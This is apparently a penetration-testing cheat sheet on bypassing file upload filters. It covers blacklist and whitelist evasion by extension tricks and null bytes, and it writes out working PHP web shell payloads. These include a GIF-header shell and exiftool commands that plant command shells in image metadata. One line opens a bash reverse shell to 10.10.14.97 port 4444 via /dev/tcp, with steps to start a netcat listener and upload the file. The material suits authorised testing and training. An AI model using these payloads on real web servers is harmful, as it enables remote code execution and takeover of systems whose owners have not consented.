 ```yaml
---
description: Use these methods to attempt to bypass file upload restrictions in web servers
---
```


# File Upload

## Blacklist Bypass

Blacklisting is a type of protection where certain strings of data are prohibited from being accepted. In this case, file extensions, will be denied from being accepted to the web server.&#x20;

* These are very easy to bypass
* You can do this by a variety of methods

### Examples

Here are some alternatives to popular extensions that can be used to get around blacklist filters:

```
php.txt, .sh, .pht, .phtml, .phP, .Php, .php7, .php%00.jpeg, .cgi
```

Another extension for web shells are JSP -- this file is a server-generated web page. It is similar to a .ASP or .php file, but it contains Java code instead of Active X or PHP.

```
.MF, .jspx, .jspf, .jsw, .jsv, .xml, .war, .jsp, .aspx
```

## Whitelist Bypass

The other method for bypass is using whitelists. The whitelist is composed of things that the server will ONLY accept.&#x20;

* This may sound like it is more secure, however, there are still ways to get around this

### Examples

<mark style="color:yellow;">False extension bypass</mark>

By using a reverse shell, with a photo extension, an attacker can fool a web app into accepting a php file that also has a JPG/PNG extension:

```
reverse-shell.php.jpg
```

<mark style="color:yellow;">Null character bypass</mark>

We can bypass whitelist filters to make characters get ignored when the file is saved. This will inject a forbidden extension and an allowed extension in which can lead to a bypass:

```
payload.php%00.jpg OR payload.php\x00.jpg
```

<mark style="color:yellow;">GIF bypass</mark>

```
GIF89a; <?php system($_GET['cmd']); ?>
```

## Exif Data Bypass

This method will utilize metadata in an image (using the exiftool), such as the location, name, camera being used, and much more.

* You can modify malicious data to your payload or image using <mark style="color:yellow;">exiftool</mark>

By inserting a short command shell as information into your photo, it could appear something like this:&#x20;

{% code overflow="wrap" %}
```
exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" pwtoken.jpeg
```
{% endcode %}

* You can then use exiftool to check for the new data in the photo (i.e. exiftool pwtoken.jpeg)

```
$ exiftool pwtoken.jpeg
```

Then, add a shell extension to make it an executable file once in the web app server:

```
$ mv catphoto.jpg catphoto.php\x00.jpghe
```

### PHP one liner to code execution

{% code overflow="wrap" %}
```
exiftool -DocumentName="<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/10.10.14.97/4444 0>&1'\"); ?>" index.php.jpeg
```
{% endcode %}

* Start a netcat listener
* Upload the file to the server






